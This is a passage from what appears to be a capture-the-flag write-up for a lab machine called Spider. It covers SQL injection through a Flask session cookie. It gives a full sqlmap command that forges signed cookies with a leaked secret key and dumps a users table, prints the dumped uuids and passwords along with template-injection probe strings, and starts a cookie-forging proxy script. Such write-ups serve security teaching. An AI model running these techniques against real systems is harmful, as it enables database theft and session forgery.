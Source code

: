 ![[cookie.png]]

This means we got confirmation that the ``uuid parameter`` is injectable,In order to be able to forge a ``valid session cookie`` for this user we would need the associated ``uuid ``, which we might be able to retrieve from the ``database ``through the same ``SQL injection vulnerability`` which depends on ``UNION-BASED ``payload. or [ we write a simple proxy application that will get requests from sqlmap , forge and sign the corresponding cookies and relay requests to the remote server, returning the output to sqlmap for processing].

## Database Dumping Using sqlmap

### Method 1: ``UNION-BASED``
To dump the database i have to call the ``--eval`` parameter in the ``sqlmap`` to manipulate the requests before sending them then fees the ``secret key`` against the sqlmap
#### code-eval call
```bash
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump
```

![[sql.png]]

sqlmap prompt requires merge of the cookies do not merge the cookies because we have provided our cookie with ``*`` so that it can dump all the database session

#### Response:
The contents of ``users ``table in the ``shop database ``are returned:

![[dumpsql.png]]

```bash
Database: shop
Table: users
[3 entries]
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 9d61933d-5c24-4081-9b46-cdfea24f327d | {{8*5}}    | les98           |
| 3  | 71f57eec-d494-455a-9c8f-3398c67ed5c7 | {{config}} | tULI98          |
+----+--------------------------------------+------------+-----------------+
```

And this leaks the ``uuid`` and password of our user `chiv`

``intial Recon:``
we can login in with credentials:
![[]]

### Method 2:Proxy application middleware
We write a python script that will get request from the `sqlmap` forge and sign the cookies and relay it to the remote sever then returning the sqlmap to the server for processing.
#### code-python payload
```bash
#!/usr/bin/python3
from flask import *import requests
from flask.sessions import SecureCookieSessionInterface
import uuid

app = Flask(__name__)

app.secret_key = "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942"
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
```